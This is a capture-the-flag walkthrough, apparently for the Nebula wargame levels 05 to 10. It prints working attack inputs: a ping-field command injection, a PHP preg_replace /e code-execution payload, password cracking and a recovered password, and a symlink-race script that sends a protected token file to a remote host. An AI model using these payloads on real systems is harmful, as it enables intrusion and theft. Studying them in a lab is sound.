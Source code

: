 <h3>Level 05</h3>
This level aims to educate the user on directory permissions.  Browsing to `/home/flag05` and `ls -lAh` gives us several hidden folders, including a .backup folder with a tar file.  If we untar this, it appears to be a backup of flag05's ssh directory.  Copying the private key over will allow us to SSH in and capture our fifth flag.

<h3>Level 06</h3>
The informational page notes that this flag's credentials came from a legacy Unix system.  Executing `cat /etc/passwd | grep flag06` gives us a traditional DES encrypted password.  Loading this into john the ripper cracks the flag's password, giving us our sixth flag.

<h3>Level 07</h3>
Level 7 has a web server running on port 7007 that hosts a simple ping application.  No sanitation is performed on input, so obviously its prone to injection.  Leveraging the shell we wrote for level 3, we can simply generate a new shell script to compile and suid the binary.  By setting Host equal to `192.168.1.1 | sh /tmp/run2.sh`, we'll generate our shell and capture the flag.

<h3>Level 08</h3>
This level has a single pcap file with, likely. a password somewhere.  I scp'd this off so I could parse it in Wireshark, but it could also be done using `tcpdump -qns 0 -X -r capture.pcap | more`.  Opening the pcap gives us a login attempt with a password backdoor...00Rm8.ate.  The periods are represented by `\x7f`, which just so happens to be backspace.  su to flag08 and capture the flag.

<h3>Level 09</h3>
This level requires some prerequisite knowledge of PHP and an edge-case vulnerability.  When [pre_replace](http://php.net/manual/en/function.preg-replace.php) is used with the /e flag, the replacement string is substituted, evaluated, and replaced in the original string.  By looking at the PHP source code, we see the following `$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);`.  This regex matches the pattern `[email EMAIL]`, where EMAIL will be evaluated by the spam function, then eval'd by PHP.  Notice the function takes two arguments, but only uses one; a clue, by any means.  

In order to exploit this, we need to set the email portion of the regex to spawn us a shell.  This can be done with the following entry: `([email {${system($use_me)}}])`, where $use_me is $argv[2] to the executable.  Wrapping the command in `${system}` allows the PHP engine to interpret the command properly, and the extra pair of curly braces for escaping.  Pass in /bin/bash to capture your flag.

<h3>Level 10</h3>
Level 10 introduces a bit of networking; an application binary exists in the flag's folder, which reads a file and host from stdin and sends the file to the host over port 18211.  The binary first makes a call to access() to verify the user has adequate privileges; if not, a connection to the remote host is made and the file sent.  The vulnerability is a classic TOCTTOU (time of check to time of use); the application first checks if the user has access, then goes about creating a socket, making the connection, and sending the header.  With the following script, we can brute force the race condition:

```
#!/bin/bash

unlink /tmp/token
touch /tmp/token
/home/flag10/flag10 /tmp/token 192.168.1.74 &
rm -f /tmp/token
ln -s /home/flag10/token /tmp/token
```
